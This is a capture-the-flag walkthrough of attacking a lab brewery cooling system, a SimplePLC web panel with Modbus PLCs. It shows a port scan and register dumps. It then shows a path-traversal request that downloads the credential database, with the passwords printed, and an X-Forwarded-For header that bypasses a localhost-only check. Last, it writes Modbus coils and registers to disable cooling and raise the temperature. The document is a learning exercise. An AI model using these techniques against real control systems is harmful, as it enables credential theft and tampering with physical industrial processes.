








Same as usual I will perform a full scan of all the TCP ports open on the machine.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.1 (Python 3.9.18)
|_http-server-header: Werkzeug/3.0.1 Python/3.9.18
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-favicon: Unknown favicon MD5: 309D35C9DFD67E652C06B2A79425B50F
| http-title: SimplePLC v2.1 - Log-in
|_Requested resource was /panel/login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=4/21%OT=80%CT=%CU=40549%PV=Y%DS=2%DC=T%G=N%TM=69E7D031
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=9)OPS(
OS:O1=M54EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11
OS:NW7%O6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 75.885 days (since Wed Feb  4 23:15:40 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   535.72 ms 192.168.255.1
2   392.82 ms 172.19.1.10

```

# HTTP

Running my string again to target some values:



Shows that the machine PLC tied to this HMI is on the IP .11:

```bash
python3 auditor.py

AUDIT REPORT: 172.19.5.3
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
0        | 0               | 1              
1        | 0               | 60             
2        | 0               | 90             
3        | 4800            | 0               <--- AGITATOR
8        | 2898            | 0              

AUDIT REPORT: 172.19.5.7
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
0        | 0               | 1              
1        | 0               | 12             
2        | 0               | 95             
3        | 65533           | 0              
4        | 95              | 0              
5        | 65533           | 0              
6        | 1949            | 0              

AUDIT REPORT: 172.19.5.9
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
0        | 0               | 1440           
1        | 0               | 4              
2        | 0               | 50             

AUDIT REPORT: 172.19.5.11
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
0        | 0               | 12             
1        | 92              | 92             
2        | 0               | 120            
3        | 0               | 10             
4        | 0               | 75             

AUDIT REPORT: 172.19.5.13
Address  | Holding (FC03)  | Input (FC04)   
---------------------------------------------
                                              [!] DEVICE BUSY / OFFLINE
                                                                           
```

When I login i can appure this is the cooling PLC:  


The reason i am starting here is because I got a tips to start from here since it is the easiest one, and I see immediately the possibility of a LFI?

```http
//Request
GET /panel/logs?log_file=logs.csv HTTP/1.1
Host: 172.19.3.10
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/147.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.19.3.10/panel/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJpc19hZG1pbiI6ZmFsc2UsImxvZ2dlZGluIjp0cnVlLCJ1c2VybmFtZSI6Imd1ZXN0In0.aesuSQ.l1pYvo5UpHNunuXz93wCUzce0kM
Connection: keep-alive

//Response
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.9.18
Date: Fri, 24 Apr 2026 08:51:03 GMT
Content-Type: text/csv
Content-Disposition: attachment; filename=logs.csv
Content-Length: 1589
Vary: Cookie
Connection: close

Date,Time,Batch No.,Brew Type,Volume,Start Temp. (°C),End Temp. (°C),Duration (min),Water Usage (liters),Operator,Sanitation Procedures,Maintenance Notes,Comments
2023-11-29,08:00 AM,001,IPA,500L,100,20,45,200,J.Doe,Standard Protocol,Checked hoses for leaks,Smooth operation
2023-11-30,09:15 AM,002,Stout,450L,98,20,50,220,S.Smith,Standard Protocol,Tightened connections,Minor foam observed
2023-12-01,10:00 AM,003,Lager,500L,99,20,40,180,A.Jones,Enhanced Cleaning,Replaced seal, tested pressure,Extra sanitation done
2023-12-02,07:30 AM,004,Wheat Beer,480L,100,20,43,190,M.Lee,Standard Protocol,Inspected for corrosion,Consistent cooling rate
2023-12-03,08:45 AM,005,Pale Ale,500L,100,20,47,210,K.Patel,Standard Protocol,No maintenance required,Perfect end temperature
2023-12-04,09:00 AM,006,Porter,450L,98,20,48,225,R.Gomez,Enhanced Cleaning,Pressure valve adjusted,Noted slight vibration
2023-12-05,11:00 AM,007,Belgian Ale,470L,99,20,44,205,T.Wang,Standard Protocol,No issues detected,Smooth operation
2023-12-06,10:30 AM,008,Saison,490L,100,20,46,215,E.Morris,Standard Protocol,General inspection performed,Stable performance
2023-12-07,08:20 AM,009,Pilsner,500L,100,20,42,195,L.Brown,Standard Protocol,Checked for seal integrity,Quick and efficient
2023-12-08,09:35 AM,010,Red Ale,460L,98,20,49,220,N.Chen,Enhanced Cleaning,Replaced a worn hose,Excellent end result
Pending,TBD,011,Sogard-Lager,480L,,,0,0,,Standard Protocol,Pump speed set, pre-cooler ready, In mash mixing stage; set for automated operation post-mash/boiling. Operator credentials need to be added to storage.db

```

Now normaly this downloads a log file, but what happens if i try to read the DB that contains all the credentials?



And it suprisingly works, whaat?

```http
//Request
GET /panel/logs?log_file=storage.db HTTP/1.1
Host: 172.19.3.10
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/147.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.19.3.10/panel/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJpc19hZG1pbiI6ZmFsc2UsImxvZ2dlZGluIjp0cnVlLCJ1c2VybmFtZSI6Imd1ZXN0In0.aesuSQ.l1pYvo5UpHNunuXz93wCUzce0kM
Connection: keep-alive

//Response
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.9.18
Date: Fri, 24 Apr 2026 08:54:07 GMT
Content-Type: text/csv
Content-Disposition: attachment; filename=storage.db
Content-Length: 8192
Vary: Cookie
Connection: close

SQLite format 3���@  �������������������������������������������������������������������.c
���f�f����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������‚
tableusersusersCREATE TABLE users (
    id INTEGER NOT NULL, 
    administrator BOOLEAN, 
    username VARCHAR, 
    password VARCHAR, 
    PRIMARY KEY (id)
)
���q�àÀ©q������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������%operator2T16.Z'/n&)~?�%operator1[@ummhG4|06E�%alexk?<:yo^Q4yzI�5guestsimplepassword123$%^�	'%administratorGwB/ym)[]Hnz
```

And I have the following creds:

```bash
1	1	administrator	GwB/ym)[]Hnz
2	0	guest		simplepassword123$%^
3	0	alex		k?<:yo^Q4yzI
4	0	operator1	[@ummhG4|06E
5	0	operator2	T16.Z'/n&)~?

```

Now logging back as administrator shows that i am not able to login except when being on localhost?

```http
//Request
GET /panel/modbus HTTP/1.1
Host: 172.19.3.10
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/147.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.19.3.10/panel/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJyrVsosjk9Myc3MU7IqKSpN1VHKyU9PT01B8EuLU4vyEnNTlayUwOoyi0uKEkvyi5RqAZX8Ff0.aesw3w.jrfbXz0cVwWVEkE_7q4HtZ4NYDc
Connection: keep-alive


//Response
HTTP/1.1 401 UNAUTHORIZED
Server: Werkzeug/3.0.1 Python/3.9.18
Date: Fri, 24 Apr 2026 09:00:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 778
Vary: Cookie
Connection: close

<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<link rel="shortcut icon" href="/static/img/icon.png">
<link rel="stylesheet" href="/static/css/bootstrap.min.css">
<link rel="stylesheet" href="/static/css/line-awesome.min.css">
<link rel="stylesheet" href="/static/css/styles.css">
<script src="/static/js/bootstrap.min.js"></script>

<title>SimplePLC v2.1 - Error</title>
    </head>
    <body>
        
        

<meta http-equiv = "refresh" content = "2; url = /panel/dashboard" />
<div class="center w-25">
    <div class="login-container">
        <h3 class="mt-3">Error</h3>
        <hr>
        
            <span>Access not allowed from non-local addresses</span>
        
    </div>
</div>


    </body>
</html>
```

But if I use a override header I can bypass the limitation:

```http
//Request
GET /panel/modbus HTTP/1.1
Host: 172.19.3.10
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/147.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.19.3.10/panel/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJyrVsosjk9Myc3MU7IqKSpN1VHKyU9PT01B8EuLU4vyEnNTlayUwOoyi0uKEkvyi5RqAZX8Ff0.aesw3w.jrfbXz0cVwWVEkE_7q4HtZ4NYDc
Connection: keep-alive


```

And now i can modifythe permission to allow RW?



And indeed now I can RW:


Now the challenge is pretty explicative and the goal is to raise the temperature to over 25 degres in order to show the flag:



Now the Input registries cannot be writed which means I need to read the ST code in order to change the values that will increate the temp.

# Attacking the PLC

Now the goal is to abuse the Holdig regisitries(in the example the reg 1 is the pump speed):

```bash
┌ Holding Registers @0x0000 ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
│Addr     Hex      Int16      Timestamp               Label                                                                                                   │
│0x0000   0000     0          2026-04-24 11:45:15.272                                                                                                         │
│0x0001   005A     90         2026-04-24 11:45:37.229                                                                                                         │
│0x0002   0064     100        2026-04-24 11:47:15.247                                                                                                         │
│0x0003   0064     100        2026-04-24 11:47:19.783                                                                                                         │
│0x0004   0064     100        2026-04-24 11:47:48.371                                                                                                         │
│0x0005   0064     100        2026-04-24 11:47:56.073                                                                                                         │
│0x0006   0000     0          2026-04-24 11:45:15.272                                                                                                         │
│0x0007   0000     0          2026-04-24 11:45:15.272                                                                                                         │
│0x0008   0000     0          2026-04-24 11:45:15.272                                                                                                         │
│0x0009   0000     0          2026-04-24 11:45:15.272                                                                                                         │
│                                                            

```

And gemini suggested to do this:

```
Variable List
Name			Value
000 process_start	true
001 cooler_pump		false
000 start		false
001 stop		false
001 pump_setpoint	75
000 temp_sensor		27
001 pump_speed		75
002 pump_max_speed	120
003 pump_min_speed	10
004 tank_level		75
```

And I have a flag:



Now my understading is that:

1.  The main process must be true, that's like the main killswitch (can be controlled by setting the coil 0 = true)
2.  The pump should be off, otherwise it will start to cool down and that is not something I want(can be controlled by setting the colil 1= false)
3.  The pump setpoint must be set to 75, which matches the tank level of 75% (can be controlled by setting the holding reg 1 = 75)

This translates to the following values:  


And this is the following flag:  


&nbsp;